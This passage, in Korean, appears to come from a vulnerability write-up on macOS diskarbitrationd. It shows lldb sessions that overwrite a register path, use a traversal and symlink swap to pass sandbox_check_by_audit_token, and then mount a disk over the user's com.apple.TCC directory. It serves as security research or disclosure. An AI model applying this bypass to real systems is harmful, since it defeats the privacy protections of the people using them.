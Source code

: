 4.`__DAQueueRequest` 브레이크포인트에서 중지 후 `X4` 레지스터 값 확인

```
(lldb) register read $x4
      x4 = 0x0000600000020000
```

5.경로 문자열 확인

```
(lldb) memory read -f s $x4+16
0x600000020010: "Kfile:///private/tmp/Users/crab/Library/Application%20Support/com.apple.TCC/"
```

6.`X4` 레지스터를 원래 경로 값으로 덮어쓰기

```
(lldb) register write $x4 0x0000600000f24000
(lldb) c
Process 1606 resuming
```

7.`diskarbitrationd` 프로세스에서 `sandbox_check_by_audit_token` 브레이크포인트에서 멈춤

```
(lldb) c
Process 113 resuming
Process 113 stopped
* thread #2, queue = 'DAServer', stop reason = breakpoint 2.1
```

8.메모리 덤프를 통해 경로가 유지되고 있음을 확인

```
(lldb) memory read -f s 0x000000014ea0cc90
0x14ea0cc90: "/private/tmp/starthere/../../../Users/crab/Library/Application Support/com.apple.TCC"
```

9.`sandbox_check_by_audit_token` 호출 후 반환 값 확인

```
(lldb) finish
(lldb) register read $x0
      x0 = 0x0000000000000000
```

`sandbox_check_by_audit_token`가 `0`을 반환하여 검사를 통과합니다. 

10.`starthere`를 심볼릭 링크에서 디렉터리로 변경 후 `diskarbitrationd` 실행 및 마운트 결과 확인

```
crab@see /tmp % rm starthere
crab@see /tmp % mkdir starthere

(lldb) c

crab@see /tmp % mount
...
/dev/disk6s1 on /Users/crab/Library/Application Support/com.apple.TCC (apfs, local, nodev, nosuid, journaled, noowners, mounted by crab)
```
